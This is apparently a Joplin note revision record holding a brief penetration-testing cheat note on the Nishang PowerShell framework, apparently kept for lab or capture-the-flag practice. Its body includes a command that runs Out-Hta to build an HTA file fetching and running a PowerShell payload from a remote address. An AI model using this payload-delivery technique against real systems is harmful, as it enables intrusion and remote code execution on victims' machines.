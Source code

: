 id: b40c0f7f46be40c7bb2616263b8c202f
parent_id: 
item_type: 1
item_id: 85f863ac1b834cae82575a30d4170a3a
item_updated_time: 1642566069728
title_diff: "[{\"diffs\":[[1,\"Nishang\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":7}]"
body_diff: "[{\"diffs\":[[1,\"### Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.\\\n\\\ngo to /opt/nishang\\\n\\\nfind the scripts related to what is required: e.g. for hta extension file\\\n\\\n> find . | grep -i hta\\\n\\\nE.g. Out-HTA\\\n\\\n> cd Client\\\n> pwsh\\\n> \\\n> . ./Out-Hta.ps1\\\n> \\\n> Out-Hta -PayloadURL http://10.10.14.17/ippsec.ps1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":449}]"
metadata_diff: {"new":{"id":"85f863ac1b834cae82575a30d4170a3a","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.724Z
created_time: 2022-02-28T02:44:25.724Z
type_: 13